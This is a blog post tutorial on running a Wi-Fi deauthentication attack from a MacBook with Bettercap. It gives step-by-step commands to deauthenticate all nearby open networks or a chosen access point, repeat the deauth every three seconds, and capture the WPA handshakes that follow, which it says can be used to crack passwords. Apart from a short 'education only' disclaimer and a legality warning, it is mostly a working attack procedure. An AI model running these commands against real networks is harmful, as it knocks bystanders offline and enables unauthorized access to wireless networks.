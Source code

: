```yaml
---
published: true
layout: single
title: Hacking. Wi-Fi Deauthentification attack on MacOS
excerpt: >-
  Probably all Apple computers with wireless cards are capable to use monitoring and de-authentication mode. BetterCAP is an amazing, adaptable, and convenient tool made to perform a different type of WiFi attack.
categories: sysad
tags: wifi security linux macos
toc: true
# header:
#   teaser: /assets/images/selenium/selenium_python_logo.png
#   og_image: /assets/images/selenium/selenium_python_logo.png
---
```


> Disclaimer: this post for education purposes only.

Probably all Apple computers with wireless cards are capable to use monitoring and de-authentication mode. Please note that de-authentication it’s the same as a denial of service. It’s illegal in many places and you might get in trouble. So, make sure you have permission to do so.

Also, there is a native command-line tool, airport (and [this guide][part1] how to capture WPA with it).

In this write-up, I will focus on capturing WPA handshakes with MacBook and [Bettercap][bettercap].

## prerequisites

You need the [Homebrew](https://brew.sh/) package manager installed. If you don’t have it, use the one-liner below to install it. It will also install Xcode command line tools and all necessary dependencies. You will need to enter your administrator password and it will take up to 5 minutes:

```
/usr/bin/ruby -e "$(curl -fsSL https://raw.githubusercontent.com/Homebrew/install/master/install)"
```


## installation

Once you have Homebrew you proceed with the command below to install Bettercap:
```
brew install bettercap
```

## running

Now, we can run Bettercap to look at what is around us. Please note that as an interface adapter I am using a new MacBook Pro, which has the Wireless adapter as `en0`. In your case, it might be `en1`. Check yours here `🍎 > About this mac > System Report > Network > Wi-Fi`):

1. Disassociate a network
```
sudo airport -z
```

2. Run bettercap
```
sudo bettercap -iface en0
```

3. Start discovering Access Points around you
```
wifi.recon on
```
After that you will sniff all traffic tranmitting around you:
[![bettercap-monitor]({{ site.baseurl }}/assets/images/wifi-crack/bettercap-monitor.png)]({{ site.baseurl }}/assets/images/wifi-crack/bettercap-monitor.png){: .align-center}

4. To see access points around you use the following command
```
wifi.show
```
[![wifi-show]({{ site.baseurl }}/assets/images/wifi-crack/wifi-show.png)]({{ site.baseurl }}/assets/images/wifi-crack/wifi-show.png){: .align-center}

5.  Now, let’s send deauthentication packets to networks. `wifi.deauth` starts sending [deauth packets][deauth] to the specified (BSSID) of the access point.

    Open networks which aren’t protected by a passphrase.
```
set wifi.deauth.open true
wifi.deauth all
```


    Or deauth only one Access Point with `11:11:11:11:11:11` BSSID
```
wifi.deauth 11:11:11:11:11:11
```

    You can also to opt the broadcast to address `FF:FF:FF:FF:FF:FF`.

    To repeat it every 3 seconds run this
```
set ticker.period 3
set ticker.commands wifi.deauth 11:11:11:11:11:11
ticker on
```
[![wifi-deauth]({{ site.baseurl }}/assets/images/wifi-crack/wifi-deauth.png)]({{ site.baseurl }}/assets/images/wifi-crack/wifi-deauth.png){: .align-center}

    A client has reauthenticated after being deauthenticated by bettercap and a handshake can be captured to [hack password](part1) or smth.else.

## conclusion

Bettercap has many more functionalities that can be used in a network attack, monitoring, or testing process. These include password sniffer, fake access point creation, handshake capture, Wi-Fi networks monitoring, bettercap webserver, DNS spoofer, transparent HTTP proxy, TCP proxy, logging, and many more. In this article I would show the one aspect of the tool - deauthenticate clients from AP.

If you have any questions on any of the modules that bettercap offers I suggest you visit [bettercap.org](https://www.bettercap.org) and read the documentation.

## additional information

* [Youtube Video](https://www.youtube.com/watch?v=G6MXOzGIJZ4) - video example of hacking WiFi password
* [Issue in GitHub about kernel panic](https://github.com/bettercap/bettercap/issues/448) - some MacBooks has a problem to run bettercap
* [Wikipedia. Wi-Fi deauthentication attack](https://en.wikipedia.org/wiki/Wi-Fi_deauthentication_attack) - some information about basic of attack

[bettercap]: https://www.bettercap.org/intro/
[part1]: {% post_url 2020-07-17-wifi-cracking %}
[deauth]: https://mrncciew.com/2014/10/11/802-11-mgmt-deauth-disassociation-frames/